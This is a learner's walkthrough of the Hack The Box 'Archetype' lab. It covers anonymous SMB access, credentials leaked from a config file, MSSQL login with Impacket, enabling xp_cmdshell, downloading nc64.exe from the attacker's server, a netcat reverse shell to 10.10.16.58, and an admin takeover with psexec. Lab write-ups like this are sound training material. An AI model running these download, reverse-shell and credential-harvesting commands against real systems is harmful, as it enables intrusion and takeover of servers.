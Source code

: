 [[HTB-LABS]] [[Week4]]

# **Archetype**
this what i learn:
1. you can enter `smb` server by `smbclient` , and you can use those flages: `-N` mean **no password** . and can use `-L` to **List service or directory**
2. after we do this , there's some dir show and one of those is `backups` and to enter it
   we can use this command `smbclient -N \\\\{IP}\\backups` by this we will get shell and can use `dir` command to list what in there , then use `get` to download
3. when use `dir` you will find find file its name is `prod.dtsConfig`  and use get to download this file , then if you cat this file you will see code , in this code you will see username `ARCHETYPE\sql_svc` password `M3g4c0rp123` . this is the code 
```
   <DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>

```
4. we will use Impacket ```
```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

5. we will use this script `mssqlclient.py` with this flaags `-windows-auth` :this flag is specified to use Windows Authentication .
   `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth` by then the password and by that you'r connect to sql server and type `help` for help 
   Here's a great article that can guide us further to our exploration journey with MSSQL Server:
   https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

6. and from this cheat-sheet i will use this `SELECT is_srvrolemember('sysadmin');` continue using the cheat-sheet to see , from the command above the result is 1 and that mean it `true` which mean i'm admin or `sysadmin` .
7. after you know you'r admin use this script to enable shell
 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
8.  now we will use this file [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) , but first we need to run Power-Shell because it better than normal command prompt , to do this we will use this command `xp_cmdshell "powershell -c command"`  replace `commnad` with any command you want to perform , i use `pwd` to know where we are , and this is the output `C:\Windows\system32` but we cannot write here , so after some enumeration i know that download will be great 
9. now we need to upload this  [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) file , and for that we will use this 
   command `sudo python3 -m http.server 80` in our terminal , now in the server terminal do this command  `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.58:80/nc64.exe -outfile nc64.exe"` 
   by that we download this file to the server  and to make this file work we will use this command 
   `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.58 443"` by this we make the file work and give it our ip and the port 
   and you should run this on your terminal `nc -lnvp 443` 
10. boom!!! we get reverse shell to the main server, now we went to Desktop to find the user.txt flag , then go to power-shell history 
    `cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
    there we will find this file `ConsoleHost_history.txt` and that have the history of this powershell then perform this command `type ConsoleHost_history.txt` and you will get the user of the admin and the password 

11. after that you can use `psexec.py` from impacket to get in as admin and we use this `ali@Ali:~/impacket/impacket/examples$ sudo python3 psexec.py administrator@10.129.95.187` from that now we'r admin
12. we try to use winPEAS but idont know anything about it so we let it for letter ctf

